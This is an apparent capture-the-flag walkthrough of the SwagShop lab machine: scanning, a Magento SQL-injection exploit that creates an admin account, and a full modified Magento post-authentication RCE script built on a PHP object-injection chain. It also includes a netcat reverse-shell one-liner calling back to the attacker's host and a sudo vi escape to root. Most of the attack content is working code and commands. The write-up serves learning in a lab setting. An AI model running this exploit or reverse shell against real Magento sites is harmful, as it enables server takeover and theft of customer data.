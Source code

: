 ![[Pasted image 20240720111236.png]]

Ping
![[Pasted image 20240704161528.png]]

Nmap Scans
```
mapit 10.10.10.140
```

Nmap Default Scan
![[Pasted image 20240704161610.png]]

Nmap Service and Script Scan
![[Pasted image 20240704161751.png]]

Nmap All Port Scan
![[Pasted image 20240704161937.png]]

Have changed added swagshop.htb to my hosts file
![[Pasted image 20240704162143.png]]

On Port 80 http://swagshop.htb/
![[Pasted image 20240704161912.png]]

Gobuster Scan
```
gobuster dir -u http://10.10.10.140 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,html,txt,bak,aspx -s 200,204,301,302,307,403 -k --status-codes "" -o gobuster.txt
```
![[Pasted image 20240704162622.png]]

 I have found this in /app dir
![[Pasted image 20240704165349.png]]
I think it is mysql cred, but we can't reach mysql server from outside

We can see the website is running Magento Copyrighted at 20145, so it should be older version
![[Pasted image 20240704163145.png]]

Will check for public exploit and there are lot will use this https://github.com/joren485/Magento-Shoplift-SQLI

Have saved the code in file named exp.py and executed
```
python2 exp.py http://swagshop.htb
```
![[Pasted image 20240704164255.png]]

But we can't get the admin page with this url, instead we have to add index.php 
http://swagshop.htb/index.php/admin
![[Pasted image 20240704164414.png]]

Will login using the password provided by the exploit code ypwq:123

We got admin dashboard   
![[Pasted image 20240704165400.png]]

And found another exploit for this version but it is authenticated RCE https://www.exploit-db.com/exploits/37811
Saved the script in the file named exp1.py and executed
```
python2 exp1.py http://10.10.10.140 "id"
```
![[Pasted image 20240704165739.png]]

I have check the code and found the problematic area and commented it.
![[Pasted image 20240704165945.png]]

This script need a tons of modification, the below is modified Exploit Script for RCE
```
#!/usr/bin/python
# Exploit Title: Magento CE < 1.9.0.1 Post Auth RCE
# Google Dork: "Powered by Magento"
# Date: 08/18/2015
# Exploit Author: @Ebrietas0 || http://ebrietas0.blogspot.com
# Vendor Homepage: http://magento.com/
# Software Link: https://www.magentocommerce.com/download
# Version: 1.9.0.1 and below
# Tested on: Ubuntu 15
# CVE : none

from hashlib import md5
import sys
import re
import base64
import requests

def usage():
    print("Usage: python %s <target> <argument>\nExample: python %s http://localhost \"uname -a\"" % (sys.argv[0], sys.argv[0]))
    sys.exit()

if len(sys.argv) != 3:
    usage()

# Command-line args
target = sys.argv[1]
arg = sys.argv[2]

# Config.
username = 'ypwq'
password = '123'
php_function = 'system'  # Note: we can only pass 1 argument to the function
install_date = 'Wed, 08 May 2019 07:23:09 +0000'  # This needs to be the exact date from /app/etc/local.xml

# POP chain to pivot into call_user_exec
payload = (
    'O:8:"Zend_Log":1:{s:11:"\00*\00_writers";a:2:{i:0;O:20:"Zend_Log_Writer_Mail":4:{s:16:'
    '"\00*\00_eventsToMail";a:3:{i:0;s:11:"EXTERMINATE";i:1;s:12:"EXTERMINATE!";i:2;s:15:"'
    'EXTERMINATE!!!!";}s:22:"\00*\00_subjectPrependText";N;s:10:"\00*\00_layout";O:23:"'
    'Zend_Config_Writer_Yaml":3:{s:15:"\00*\00_yamlEncoder";s:%d:"%s";s:17:"\00*\00'
    '_loadedSection";N;s:10:"\00*\00_config";O:13:"Varien_Object":1:{s:8:"\00*\00_data"'
    ';s:%d:"%s";}}s:8:"\00*\00_mail";O:9:"Zend_Mail":0:{}}i:1;i:2;}}' % 
    (len(php_function), php_function, len(arg), arg)
)

s = requests.session()
data = {
    'login[username]': username,
    'login[password]': password,
    'form_key': '6I8iRr8WcOtoVnpU',
    'dummy': ''
}

res = s.post(target, data=data)
content = res.content

url = re.search("ajaxBlockUrl = \'(.*)\'", content)
url = url.group(1)

key = re.search("var FORM_KEY = '(.*)'", content)
key = key.group(1)

data = {'isAjax': 'false', 'form_key': key}
request = s.post(url + 'block/tab_orders/period/2y/?isAjax=true', data=data)
res = request.content

tunnel = re.search("src=\"(.*)\?ga=", request.content)
tunnel = tunnel.group(1)

payload = base64.b64encode(payload.encode()).decode()
gh = md5((payload + install_date).encode()).hexdigest()

exploit = tunnel + '?ga=' + payload + '&h=' + gh
req = s.get(exploit)
print(req.content)

```

Will Jump to Initial Foothold...!




Will execute this exploit and it was saved in a file named exp1.py
```
python2 exp1.py http://10.10.10.140/index.php/admin "id"
```
![[Pasted image 20240706132324.png]]

Will get a reverse shell now, 
```
python2 exp1.py http://10.10.10.140/index.php/admin "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.3 4444 >/tmp/f"
```
![[Pasted image 20240706133102.png]]
Got it....!

**User.txt**
![[Pasted image 20240706133639.png]]


Will Jump to Privilege Escalation....!

Will check our Privilege
```
sudo -l
```
![[Pasted image 20240706133908.png]]
We have wildcard, will enumerate further

we can use this privilege to become root
```
sudo /usr/bin/vi /var/www/html/pwn
```
This will open a file as root in vi

Then will get a shell as root using Vi
```
:set shell=/bin/sh 
```
```
:shell
```
![[Pasted image 20240706135613.png]]
Got root shell, will get a new shell as root, I don't like this shell

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.3 4444 >/tmp/f
```
![[Pasted image 20240706135710.png]]

Got new Shell as root
![[Pasted image 20240706135732.png]]

**Root.txt**
![[Pasted image 20240706135810.png]]



Done with Swagshop.......:) 